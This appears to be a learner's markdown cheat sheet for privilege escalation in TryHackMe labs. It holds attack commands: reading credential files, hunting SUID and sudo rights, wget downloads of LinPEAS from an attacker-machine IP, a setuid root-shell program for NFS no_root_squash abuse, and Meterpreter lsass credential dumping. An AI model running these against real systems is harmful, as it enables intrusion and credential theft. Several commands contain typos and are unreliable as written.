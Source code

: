 horizontal - changing unprivileged access
vertical - gaining privileged access

##### accessing THM via openVPN
change to folder with conf. file -> `sudo openvpn USERNAME.ovpn`


## Linux
`id; whoaimi; groups`
to check who I am

`hostname`
can contain usefull info about user

`uname -a`
info about kernel and system versions - check if vulnerable

`cat /proc/version`
kernel, system and additional info (e.g. if `gcc` is installed)


`ls -la /etc/passwd`
check your privileges (maybe you could write?)

`cat /etc/passwd | grep home | cut -d":" -f1`     
```
kali:x:1000:1000:Kali,,,:/home/kali:/usr/bin/zsh
```
users with `home` might be worthier of hacking
hash is in place of "x", or it is in `/etc/shadow`

check if you have access to `/etc/shadow` (not likely)


- look for `SUID` binaries
`find / -type f -perm -04000 -ls 2>/dev/null`
- look for `sudo` users
`sudo -l` list what sudo allows

[GTFObin](https://gtfobins.github.io/)

[when only root-write permission](./example/root-write)

`getcap -r / 2>/dev/null` ??????

### copy payloads to target
prepare dir with payloads on local machine
create simple python server on local machine in that dir
check your VPN IP (via `ip a` should be visible)

create `/tmp/payloads` on target
`wget http://ATTACK_MACHINE_IP:PORT/linux-peas.sh`
(without specification "what" to download - will download only index.html - you have to be specific)

POC proof of concept

### Payloads:
Linpeas `shell wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh`

LinEnum `shell wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`


### NFS

``` Target
# shows nfs shares and flags
cat /etc/export
```
flag `not_root_squash` - gives root user **of the client** ability to create files that can be used as root on server

``` Kali
# you can detect & list nfs with
sudo nmap --script=nfs-showmount 10.10.137.205


# create tmp dirs to mount shares to
mkdir -p /tmp/nfs/sharefolder
mkdir -p /tmp/nfs/tmp
mkdir -p /tmp/nfs/backup

# mount shares
sudo mount -t nfs 10.10.137.205:/home/ubuntu/shrefolder /tmp/nfs/sharefolder
sudo mount -t nfs 10.10.137.205:/tmp /tmp/nfs/tmp
sudo mount -t nfs 10.10.137.205:/home/backup tmp/nfs/backup

# cleaning up
sudo unmount /tmp/nfs/sharefolder
sudo unmount /tmp/nfs/tmp
sudo unmount /tmp/nfs/backup

rm -rf /tmp/nfs/sharefolder
rm -rf /tmp/nfs/tmp
rm -rf /tmp/nfs/backup

# to see what is mounted (lok for IP for mounted from other systems)
findmnt
df -aTh
```

``` Kali
# to compile
int main() 
{
   setgid(0);
   setuid(0);
   system("/bin/bash");
   return 0;
}

# compile
sudo su
gcc nfs.c -o nfs -wcat pro
```

## Windows
in meterpreter 
`getuid` 

`load kiwi`
`ps` -> `lsass.exe` look for PID
`migrate 768`
`creds_msv` to retrieve LMNTLM creds
`hashdump` dump of passwd hashes :D

## Metasploit
you can use postgresql.service - better performance and you can save info about infrastructure


